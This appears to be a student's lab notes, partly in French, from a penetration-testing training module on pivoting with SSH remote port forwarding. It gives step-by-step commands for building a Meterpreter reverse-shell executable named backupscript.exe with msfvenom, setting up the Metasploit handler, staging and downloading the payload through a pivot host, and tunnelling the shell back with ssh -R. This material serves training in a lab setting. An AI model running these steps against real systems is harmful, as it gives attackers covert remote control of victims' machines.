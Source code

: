 # Remote/Reverse Port Forwarding with SSH

***

![](https://academy.hackthebox.com/storage/modules/158/33.png)

<mark style="color:orange;">**Mais que se passe-t-il si nous essayons d'obtenir un reverse shell ?**</mark>

L’hôte Windows ne peut communiquer qu’avec son réseau local (172.16.5.0/23) et ne peut pas joindre directement l’hôte d’attaque (10.129.x.x). Pour contourner ce blocage, on utilise un **hôte pivot** — ici le serveur Ubuntu — qui peut accéder aux deux réseaux. Ainsi, le reverse shell Meterpreter de Windows est configuré pour se connecter d’abord à Ubuntu (172.16.5.129:8080), qui retransmet ensuite le trafic vers notre hôte d’attaque (port 8000), permettant une session Meterpreter complète malgré les restrictions réseau.

<mark style="color:green;">**Creating a Windows Payload with msfvenom**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
{% endcode %}

<mark style="color:green;">**Configuring & Starting the multi/handler**</mark>

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run
```

<mark style="color:green;">**Transferring Payload to Pivot Host**</mark>

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

<mark style="color:green;">**Starting Python3 Webserver on Pivot Host**</mark>

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

<mark style="color:green;">**Downloading Payload on the Windows Target**</mark>

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
{% endcode %}

{% hint style="warning" %}
Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.
{% endhint %}

<mark style="color:green;">**Using SSH -R**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
{% endcode %}

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

<mark style="color:green;">**Meterpreter Session Established**</mark>

{% code fullWidth="true" %}
```shell-session
C:\>
```
{% endcode %}

{% hint style="info" %}
Notre session Meterpreter devrait indiquer que la connexion entrante provient du **localhost** lui-même (127.0.0.1), car nous recevons la connexion via le socket SSH local, qui a créé une connexion sortante vers le serveur Ubuntu. La commande **netstat** peut montrer que la connexion entrante provient du service SSH.
{% endhint %}

![](https://academy.hackthebox.com/storage/modules/158/44.png)
